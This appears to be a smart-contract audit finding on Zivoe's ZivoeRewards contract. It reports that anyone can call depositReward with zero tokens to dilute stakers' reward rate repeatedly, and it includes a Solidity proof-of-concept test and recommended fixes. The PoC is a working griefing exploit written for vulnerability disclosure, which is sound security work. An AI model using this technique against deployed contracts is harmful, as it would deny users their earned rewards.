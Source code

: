 Funny Malachite Dragonfly

high

# Malicious actor can reduce reward rate potentially preventing users from ever getting full reward in the ZivoeRewards contract.

## Summary
A malicious actor could spread out reward meant to be claimed in a few days over another 30 days period and can continually do this at zero cost to the malicious actor, and can do this repeatedly preventing users from ever actualizing full reward or a very long time to achieve full reward

## Vulnerability Detail
The `depositReward` function allows for a specified amount of a reward token into the contract for distribution to stakers over a defined vesting period. It updates the contract's reward distribution rate per token based on the total amount of the deposited reward and the remaining time in the current reward period.
However this function has no access control nor does it specify a minimum amount to be deposited thus a malicious actor could send in 0 amount of reward token (mostly DAI but could be usdt,usdc etc) and drastically reducing reward rate and amount vested to user and can do this over and over again preventing users from ever actualizing full reward since it comes at zero cost to the malicious actor.

Similar implementation is seen in the `zivoeRewardsVesting` contract

## POC

paste this in `Test_Zivoerewards.sol`

```solidity
function test_attack_to_decrease_rewardrate() public {

      uint256  block_timestamp = 110000000;

        hevm.warp(block_timestamp) ; //This is just to set current block.timestamp

        uint256 deposit = 2*10**18;

        //This simultes normal deposit by zivioe YDL
        depositReward_DAI(address(stZVE), deposit); 

        // Pre-state.
        uint256 _preDAI = IERC20(DAI).balanceOf(address(stZVE));
        (
            uint256 rewardsDuration,
            uint256 _prePeriodFinish,
            uint256 _preRewardRate,
            uint256 lastUpdateTime,
            uint256 rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
        uint256 _postPeriodFinish;
        uint256 _postRewardRate;
        
        // Attacker waits 15 day or half reward's duration

         hevm.warp(block_timestamp + 15 days);
 
        mint("DAI", address(bob), 0);
        assert(bob.try_approveToken(DAI, address(stZVE), 0));

       //attacker calls depositReward function coz he can due to lack of access control
        assert(bob.try_depositReward(address(stZVE), DAI, 0));

        // Post-state.
        (
            rewardsDuration,
            _postPeriodFinish,
            _postRewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
       assertGt(_preRewardRate, _postRewardRate );
    //    reward rate before and after depositing 0 dai
       console.log(_preRewardRate);
       console.log( _postRewardRate);

    //    reward rate before 0 dai significaly larger.

     
    }


```

## Impact

Prevents users from receiving complete reward.

## Code Snippet

## Tool used

Manual Review
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228

## Recommendation
1. Add access control to contracts expected to add rewards to Zivoe rewards contract such as ZivoeYDL
2. If its desired that any one should still be able to deposit into Zivoe rewards due to future implementations, then a minimum amount should be required so that resetting rewardrate will make sense to users and any malicious actor trying to arbitrarily reset reward rate will have to send money to the contract.
